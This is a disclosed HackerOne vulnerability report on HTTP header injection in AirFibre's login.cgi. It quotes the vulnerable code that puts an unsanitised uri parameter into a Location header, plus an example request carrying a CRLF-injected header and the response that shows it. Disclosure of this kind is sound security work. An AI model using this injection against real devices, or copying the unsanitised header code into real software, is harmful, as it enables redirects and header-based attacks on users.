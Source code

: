 # AirFibre products vulnerable to HTTP Header injection

## Report Details
- **Report ID**: 203673
- **URL**: https://hackerone.com/reports/203673
- **State**: Closed
- **Severity**: none
- **Submitted**: 2017-02-05T21:32:19.196Z
- **Disclosed**: 2017-05-17T17:01:21.732Z

## Reporter
- **Username**: simongurney
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: ui

## Vulnerability Information
The uri GET parameter of Login.cgi is directly used (on login) to generate HTTP headers without sanitisation.  An user could be tricked into logging into the device and then redirected to a malicious location or attacked through other HTTP Header injection attacks.

Vulnerable code:
if (isset($uri) && strlen($uri) > 0) {
Header("Location: " + urldecode($uri));
exit;

----------------------
Example POST
POST https://10.62.148.4/login.cgi HTTP/1.1
Connection: keep-alive
Content-Length: 363
Cache-Control: max-age=0
Origin: https://10.62.148.4
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 6.3; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/55.0.2883.87 Safari/537.36
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarynT8O7Wj9TOBD7eKm
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Referer: https://10.62.148.4/login.cgi?uri=/admin.cgi%0d%0aNewHeader:Value
Accept-Encoding: br
Accept-Language: en-US,en;q=0.8
Cookie: last_check=1486326659118; AIROS_SESSIONID=a89e9d80a7a7aa87e305f8638458e582; ui_language=en_US
Host: 10.62.148.4

------WebKitFormBoundarynT8O7Wj9TOBD7eKm
Content-Disposition: form-data; name="uri"

/admin.cgi
NewHeader:Value
.....SNIPPED.....

Example response:

HTTP/1.1 302 Found
Location: /admin.cgi
NewHeader: Value
Set-cookie: ui_language=en_US; expires=Tuesday, 19-Jan-38 03:14:07 GMT
Content-Type: text/html
Date: Sun, 05 Feb 2017 21:08:27 GMT
Server: lighttpd/1.4.30



## Attachments
- Untitled.png
